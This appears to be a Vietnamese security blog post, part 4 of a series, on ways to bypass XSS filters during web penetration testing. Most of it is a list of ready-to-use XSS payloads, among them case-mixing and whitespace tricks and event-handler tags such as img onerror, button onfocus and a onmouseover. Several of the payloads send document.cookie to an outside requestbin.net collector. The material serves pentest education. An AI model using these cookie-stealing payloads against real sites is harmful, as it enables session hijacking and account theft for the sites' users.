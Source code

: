 ```yaml
---
layout: post
title: Cross Site Scripting (XSS) [Part 4] - Các phương pháp bypass filter XSS,
date: 2021-05-23 00:32:20 +0700
description: Tìm hiểu về lỗi Cross Site Scripting trên ứng dụng web - P4,
img: 2021/05/23/210523_xss_filter.jpg
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```

Trong quá trình pentest ứng dụng có thể gặp nhiều trường hợp các payload XSS bị filter, làm thế nào để có thể bypass quá trình filter đó. Bài viết này chúng ta sẽ sẽ cùng nhau trao đổi một số phương pháp để thực hiện việc này. 

>PS: Chủ đề này tôi cũng không định ngồi viết một lèo là xong, sẽ viết dần dần theo năm tháng dựa trên những kinh nghiệm của mình tích lỹ được. Do vậy lâu lâu các bạn vào ngó nha có thể có nội dung mới nha. Ok, bắt đầu thôi.

**Nhắc lại:** Các cách bypass XSS phụ thuộc vào khả năng làm sạch input (thực hiện bởi WAF hoặc Ứng dụng). Có một vài cơ chế của việc này như:
* Trả lại lỗi, loại bỏ, encode, hoặc thay thế các input không hợp lệ. 
* Một số có thể dùng blacklist hoặc whitelist các ký tự thường gặp trong payload để ngăn chặn XSS.

Tùy thuộc vào cơ chế filter mà có các cách bypass khác nhau. Nếu ví quá trình filter như người bảo vệ ứng dụng web thì quá trình bypass là quá trình luồn lách để qua mặt những người bảo vệ này. Khó thể nói có công thức nào tuyệt đối mà là sự tùy cơ ứng biến cho phù hợp từng hoàn cảnh. Hãy nhớ điều này.


## Các load js nguyên thủy (Không mask) huyền thoại 
### Alert message

```js
<script>alert(1);</script>
```

### Dùng window location

```js
<script>window.location="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie)</script>
```

### Dùng image

```js
<script>new Image().src="http://requestbin.net/r/9d4pj5wl?c=".concat(document.cookie);</script>
```

## Các payload sử dụng mask
### Case sensitive

```js
<SCRIPT>alert(1);</SCRIPT>
<ScRipT>alert(1);</sCriPt>
```
### Lọc thẻ script
* Insert thêm ký tự trình duyệt hay bỏ qua (Tab, escape)

```js
<script  >alert(1);</script   >
```

* Không dùng thẻ script

```js
<img src=x onerror=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>
```

```js
<video src=1 onerror=alert(1)>
```

```js
<audio src=1 onerror=alert(1)>
```

```js
<img src=1 href=1 onerror="javascript:alert(1)"></img>
```

```js
<audio src=1 href=1 onerror="javascript:alert(1)"></audio>
```

```js
<video src=1 href=1 onerror="javascript:alert(1)"></video>
```

```js
<input onblur=javascript:alert(1) autofocus><input autofocus>
```

```js
<BODY ONLOAD=alert('XSS')>
```

```js
<button autofocus onfocus=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)></button>
```

```js
<a onmouseover=window.location="http://requestbin.net/r/5h067g6l?c=".concat(document.cookie)>xxs link</a>
```

